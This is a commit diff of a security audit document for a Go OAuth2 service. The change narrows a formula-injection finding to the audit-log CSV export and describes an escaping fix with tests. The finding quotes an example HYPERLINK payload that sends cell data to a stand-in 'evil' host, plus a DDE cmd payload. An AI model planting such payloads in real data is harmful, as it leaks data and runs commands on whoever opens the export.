

Before and after one commit to ovander/go-oauth2, a Markdown page: docs/CR-socrate-suite-security-pass4.md, the part around the change. Drawn GitHub-style.

Commit message:
docs: pass 4 — P4-2 scope corrected (report CSV is numeric-only)
Co-Authored-By: Claude Fable 5.1 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01GKRxaeYxyDhmt42cehLsGA

```diff
--- a/docs/CR-socrate-suite-security-pass4.md
+++ b/docs/CR-socrate-suite-security-pass4.md
@@ -80,21 +80,23 @@ the user split). Session store: its own role and database
 ### P4-2 — LOW — CSV exports are formula-injectable
 
 **Where.** `internal/handler/admin_logs_handler.go:157-168`
-(`ExportLogs`: `AdminEmail`, `TargetName` written verbatim) and
-`internal/handler/monitoring_handler.go` `writeReportCSV` (security-report
-CSV: emails, user agents, reasons — all attacker-influenced strings).
+(`ExportLogs`: `AdminEmail`, `Action`, `TargetType`, `TargetName`,
+`IPAddress` written verbatim). The security-report CSV
+(`monitoring_handler.go` `writeReportCSV`) was checked too and carries only
+numeric aggregates and dates — not affected, but it should use the same
+helper the day a free-text column is added.
 
 **Why.** A user registers with the email `=HYPERLINK("https://evil/?"&A1,"x")`
 or an app is named `=cmd|'/C …'!A0`; an admin exports the audit log or a
 security report and opens it in Excel/LibreOffice, which evaluates the cell.
 Classic DDE/formula injection; the SOC console is the most likely victim.
 
-**Verified.** Both writers use `encoding/csv` with no prefix escaping;
+**Verified.** `ExportLogs` uses `encoding/csv` with no prefix escaping;
 `csv.Writer` quotes commas/quotes only.
 
 **Fix (S).** One helper: if a field starts with `=`, `+`, `-`, `@`, `\t`,
-`\r`, prefix with `'` (or a leading space) before `cw.Write`. Apply to every
-string column in both writers; add a test with `=1+1`.
+`\r` (after trimming leading whitespace), prefix with `'` before
+`cw.Write`. Applied to every string column of `ExportLogs`, with tests.
 
 ### P4-3 — LOW — no request-body size limit on the JSON API
 
```
